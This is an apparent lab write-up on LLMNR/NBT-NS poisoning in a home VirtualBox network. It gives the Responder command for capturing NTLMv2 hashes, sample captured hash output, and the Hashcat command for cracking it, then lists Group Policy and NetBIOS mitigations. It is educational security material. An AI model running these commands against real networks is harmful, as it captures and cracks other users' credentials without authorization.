


# LLMNR Poisoning Attack

**Date:** May 2026  
**Author:** ShahinSecLab  
**Category:** Network Attack / Credential Capture  
**Difficulty:** Easy  
**Tools:** Responder, Hashcat  


## Table of Contents
1. [What is LLMNR?](#what-is-llmnr)
2. [How the Attack Works](#how-the-attack-works)
3. [Lab Setup](#lab-setup)
4. [Attack Steps](#attack-steps)
5. [Defense & Mitigation](#defense--mitigation)
6. [Key Takeaways](#key-takeaways)
7. [References](#references)


## What is LLMNR?

LLMNR stands for **Link-Local Multicast Name Resolution.**

Windows uses this when it cannot find a computer name through DNS. When DNS fails, Windows shouts to the whole network:

> *"Hey, does anyone know where \\fileserver is?"*

The problem is — any machine on the network can reply. So an attacker can say *"Yeah, that's me!"* and the victim sends their password hash without knowing.


## Protocol Order (Windows Name Resolution)

- **DNS** → tries first  
- **mDNS** → tries second  
- **LLMNR** → tries third (can be abused)  
- **NBT-NS** → tries last (can also be abused)  

## How the Attack Works

### LLMNR Poisoning Flow

```
Victim                    Network                         Attacker
  |                          |                               |
  |--- DNS request --------->|                               |
  |<-- DNS: "I don't know" --|                               |
  |                          |                               |
  |--- LLMNR broadcast ----->|                               |
  |    "Who knows            |<-- Responder listening -------|
  |     fileserver?"         |                               |
  |                          |                               |
  |<-- "I know! I am him!" --|-------------------------------|
  |                          |                               |
  |--- NTLMv2 Hash --------->|------------------------------>|
  |    (credentials sent)    |                               |
  |                          |                 Attacker captures
  |                          |                 NTLMv2 hash
```

## Lab Setup
```
|   Component  |        Details                   |
|--------------|----------------------------------|
| Attacker     |       Kali Linux                 | 
| Victim       |       Windows 10                 | 
| Tool 1       |       Responder                  |
| Tool 2       |       Hashcat                    |
| Attacker IP  |       192.168.5.128              |
| Victim IP    |       192.168.5.136              |
```
Both machines on same VirtualBox Host-Only network.


## Attack Steps

### Step 1 — Check Your IP

```bash
ip a
```


## Output:
```
eth0: 192.168.5.128
```
> Note: your interface name — mine was `eth0`


## Step 2 — Start Responder

```bash
sudo responder -I eth0 -dwv
```
```
|    Flag   |     Meaning       |
|-----------|-------------------|
| -I eth0   | Network interface |
|    -d     | DHCP poisoning    |
|    -w     | WPAD proxy server |
|    -v     | Verbose mode      |
```
Responder will now listen on the network and wait for someone to broadcast a name request.




### Step 3 — Trigger from Victim Machine

On Windows victim, open File Explorer and type:
```
\\fakeshare
```
Windows tries DNS → fails → broadcasts LLMNR → Responder catches it.


## In the attacker machine, the captured credentials will be displayed like this

```
[SMB] NTLMv2-SSP Client   : fe80::1ba4:8be8:5787:2d63
[SMB] NTLMv2-SSP Username : VICTIM-2\karim
[SMB] NTLMv2-SSP Hash     : karim::VICTIM-2:9265e4bef71c4923:19C4EB1DD7F5B53D853808B81F0EBCE4:010100000000000000CFC35AC5E6DC0135AE1EB1E9966109000000000200080036005A .... (full hash)...
```
### Step 4 — Capture the Hash

```bash
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-192.168.5.136.txt > hash.txt
```

### Step 5 — Crack the Hash

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

## Result:
### Cracked Password

```
KARIM::VICTIM-2:08c4e1b5073681c1:7acce8f5708e0b1ea3bcbcf99f26fa01:10101000000000011
0003050242c6fd:01ea99382479946200308001004c0000000200040043004600310035003900300000
10004004600310035003900300000000300240043004600310035003900300001000000040000000500
93003000300000000600040002000000070008000051d384c007d90100000000800304380000000c002
0ba8403001095010095047805a003002ea80c4f04b38041804ac00700805506242c6fdc010600802000
0000050006002000000000800045005300350033004a0083003......(full hash).....:Password1         
                                                                                   
```

## Defense & Mitigation

**Fix 1 — Disable LLMNR via Group Policy:**

Computer Configuration
→ Administrative Templates
→ Network
→ DNS Client
→ Turn off Multicast Name Resolution
→ Set to: ENABLED

**Fix 2 — Disable NBT-NS:**

Control Panel
→ Network and Sharing Center
→ Change Adapter Settings
→ Right click → Properties
→ IPv4 → Advanced
→ WINS tab
→ Select "Disable NetBIOS over TCP/IP"

**Fix 3 — Enable Network Access Control (NAC):**

Prevent unknown devices from joining the network.

**Fix 4 — Use Strong Passwords:**

Long complex passwords make hash cracking extremely difficult or impossible.
<table>
  <tr>
    <th>Password</th>
    <th>Crack Time</th>
  </tr>
  <tr>
    <td>Password123</td>
    <td>Few seconds</td>
  </tr>
  <tr>
    <td>P@ssw0rd!</td>
    <td>Few minutes</td>
  </tr>
  <tr>
    <td>X#9kL$mQ2@vR</td>
    <td>Years</td>
  </tr>
</table>


## Key Takeaways

- Works on most corporate networks — LLMNR is on by default
- No special access needed — just be on the same network
- Full attack takes less than 5 minutes
- Turning off LLMNR and NBT-NS fully stops this attack


## References

- https://github.com/lgandx/Responder
- TCM Security — Practical Ethical Hacking
- MITRE ATT&CK T1557.001

